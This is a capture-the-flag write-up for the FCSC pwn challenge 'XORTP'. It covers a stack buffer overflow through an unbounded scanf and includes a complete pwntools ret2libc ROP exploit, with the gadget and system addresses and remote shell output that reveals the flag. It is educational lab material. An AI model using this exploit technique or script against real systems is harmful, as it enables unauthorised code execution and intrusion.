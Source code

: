 Title: XORTP  
Points: 200  
Number of solves: 146  
Description: You can encrypt any file on the system with an unbreakable mechanism worthy of the greatest!  

We are provided with the source code of the challenge and a compiled executable.  

Ok so the code contains 3 functions including a `main`.  
```c
ssize_t
get_otp(unsigned char *k, const size_t n)
{
    int fd = open("/dev/urandom", O_RDONLY);
    if (fd < 0) {
    	return -1;
    }

    if (read(fd, k, n) < 0) {
        close(fd);
    	return -1;
    }

    close(fd);
    return n;
}
```

This `get_otp` (otp meaning one time password) function reads `n` bytes of data from `/dev/urandom` into the buffer pointed by `k` which provides a random encryption key to the program.  

```c
ssize_t
read_file(char *fn, unsigned char *m)
{
    int fd = open(fn, O_RDONLY);
    if (fd < 0) {
    	return -1;
    }

    ssize_t n = read(fd, m, BUF_SIZE);
    if (n < 0) {
    	return -1;
    }

    close(fd);
    return n;
}
```

The `read_file` function does exactly what the name implies : it reads `BUF_SIZE` of data from the file which name is in `fn` into the buffer pointed by `m`. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

#define BUF_SIZE 128


int
main()
{
    char filename[BUF_SIZE];
    unsigned char m[BUF_SIZE];
    unsigned char k[BUF_SIZE];

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    system("ls -ld *");

    printf("Which file would like to encrypt?\n");
    scanf("%s", filename);

    ssize_t length = read_file(filename, m);
    if (length < 0) {
        printf("Error: read_file\n");
    	return 0;
    }

    if (get_otp(k, length) < 0) {
        printf("Error: get_otp\n");
    	return 0;
    }

    // Output the XOR result
    for (ssize_t i = 0; i < length; ++i) {
    	printf("%02x", m[i] ^ k[i]);
    }
    printf("\n");

    return 0;
}
```

Now for the `main` part this displays the content of the current directory then reads a filename from the user and outputs up to the first 128 bytes xored with a random key.  
```
>>> nc chall.fcsc.fr 2105
-r-------- 1 ctf ctf     71 Apr 13 21:36 flag.txt
-r-x------ 1 ctf ctf 899704 Apr 13 21:36 xortp
Which file would like to encrypt?
flag.txt
9eec55fe66cc73bf87ea8d4decd037f715b697ededdfa40f1373b9dc47a0cef4bad96dd14a732ef32dddd5b11c8fcd3a93eb2f38dad24d19c1bca549d44e71b65ac4cfa53858b9
```

Routine checksec for some information.
```
>>> pwn checksec --file xortp
[*] '/home/furtest/files/hacking/ctf/fcsc/pwn/XORTP/xortp'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```


The encryption logic does not have any obvious flaws however we notice that there is no bound check on the filename `scanf("%s", filename);`  
The size of the buffer for filename is `BUF_SIZE` = 128  
Now how can we exploit this ? It is possible to send `filename\x00aaaa...` to input filename and make the file reading work and then trigger a segfault because we overwrote the return pointer.  

Wait `segmentation fault` ? Checksec said that there is a stack canary the error should have been `stack smashing detected`. We can take a quick look at the decompiled binary in ghidra and indeed there is no canary on the main function. (This took me an embarrassingly long time to notice)   
Once we know that we need to take advantage of our capacity to control the return pointer of `main`. We cannot really take advantage of the functions in the program so we will try to perform a ret2libc and execute `system`.  

One more cool thing that will make everything a lot easier : the binary is statically linked 
```
>>> file xortp
xortp: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=e63dc8ebb3de92c338be2ed7f0590fbbbabd94f6, for GNU/Linux 3.2.0, not stripped
```

So the binary is statically linked and PIE (position independant executabled) is disabled. Calling function is therefore just a matter of finding their address in the executable.  
We will to try to call `system("/bin/sh")` to do that we find a `/bin/sh` string at address `0x498213` and the `system` function at address `0x40a3c0`.

To execute it we need to put a pointer to `/bin/sh` in `rdi` as per the x86-64 ABI.  
We will use a rop (return oriented programming) gadget to do so.
```
>>> ropper -f xortp --search "pop rdi; ret;"
0x0000000000401f60: pop rdi; ret; 
```

So recapitulating where we are :
- We have a buffer overflow on the filename input
- We can use it to overwrite the return pointer 
- The binary is statically linked and PIE is disabled
- We have the address of a `/bin/sh` string a rop gadget to load it in `rdi` and the address of `system`.

The next step is to write a nice little pwntools script to put all of that together.

```python
io = start()

system = 0x40a3c0
binsh = 0x498213

# Find the rop gadget
rop = ROP(elf)
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]

payload = flat(
        b"flag.txt\x00",
        b"A"*(145-2),
        pack(POP_RDI),
        pack(binsh),
        pack(system),
        pack(0x0)
        )

print(io.recvline().decode(), end="")
print(io.recvline().decode(), end="")
io.sendlineafter(b'Which file would like to encrypt?\n', payload)
print(io.recvline().decode(), end="")

io.interactive()
```

We run the script and tadam : `[1]    17615 segmentation fault (core dumped)`  
Hum looks like I forgot to take stack alignment into account (I ran the exploit in gdb to figure it out).  

So I need to make the stack 16 bytes aligned (ie `rsp` must be modulo 16).  
After manually stepping through the code we can see that one of the first instructions executed by `system` is `push r13` which changes `rsp` by 8 bytes.  
So instead of jumping to the start of `system` we jump after this `push` and our exploit works.

```
>>> ./exploit.py REMOTE
-r-------- 1 ctf ctf     71 Apr 13 21:36 flag.txt
-r-x------ 1 ctf ctf 899704 Apr 13 21:36 xortp
bf40d970d624855062f89d3f2e39c3c2c8370fabe53e304fd014e866cfee994353f58dfb3580170a3dd26342659f9035075d4ecd59da8324a7c841a4f2df6b88a40771d95b3fa7
$ ls
flag.txt
xortp
$ cat flag.txt
FCSC{5f6162c46e47b68ad0d1b4a5e12404ad51431b197e37ff79ef940787fecfb554}
```
